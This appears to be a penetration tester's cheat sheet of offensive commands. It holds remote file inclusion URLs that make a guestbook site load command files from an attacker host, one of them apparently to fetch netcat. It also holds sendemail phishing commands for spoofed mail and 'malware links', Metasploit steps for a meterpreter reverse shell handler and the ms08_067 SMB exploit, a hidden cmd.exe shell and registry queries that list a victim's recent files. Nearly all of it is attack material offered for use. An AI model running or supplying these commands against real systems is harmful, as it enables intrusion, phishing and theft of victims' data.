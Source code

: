 Examples URL of RFI vulnerable site hosted on $tgt
http://$tgt/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://$me/[DIRECTORY]/[YOUR CUSTOM TXT FILE WITH CMDS]%00&Submit=Submit
http://$tgt/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://$me/RFI/php_w_downloadNcExe.txt%00&Submit=Submit

==============================================================================================================================================================
									OLD ONE
==============================================================================================================================================================



sendemail -f 'Bob Stevenson<bstevenson@f1yinglemur.com>' -t 'Steve Boberson<sboberson@targetsite1.com>' -u "Some Dude" -s 192.168.169.146 -o message-content-type=html -o message-file=/root/scripts/fake_email.html
Jun 21 13:06:09 attackbox sendemail[16574]: Email was sent successfully!

http://127.0.0.1:3000/ui/panel		#to access the ui

http://192.168.169.140:3000/demos/basic.html

=====================================================
SEND EMAILS WITH MALWARE LINKS
=====================================================
sendemail -f 'Bad Guy<bguy@mispelledTargetSite2.com>' -t 'pturner@targetsite2.com;azapple@targetsite2.com;albino@targetsite2.com;rpayne@targetsite2.com' -u "My Resume" -s 94.14.100.209 -o message-content-type=html -o message-file=/root/scripts/botnet_fake_email.html

=====================================
TCPDUMP TO WATCH TUNNEL USAGE
=====================================
tcpdump -n -n i eth0 host 192.168.169.140 and 192.168.169.144


===============================
MSFCONSOLE
=============================
workspace crazy

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

use exploit/windows/smb/ms08_067_netapi

db_nmap -Pn -sT -n -p 80

=======================================
Shells Alternative
=======================================
execute -f cmd.exe -H -c -i
#did you get system?

===================================================
FILE COLLECTION
===================================================
RECENT FILE
reg enumkey -k "HKCU\\software\\microsoft\\windows\\currentversion\\explorer\\recentdocs"
VIEW WHICH FILES
reg queryval -k reg enumkey -k "HKCU\\software\\microsoft\\windows\\currentversion\\explorer\\recentdocs" -v 0
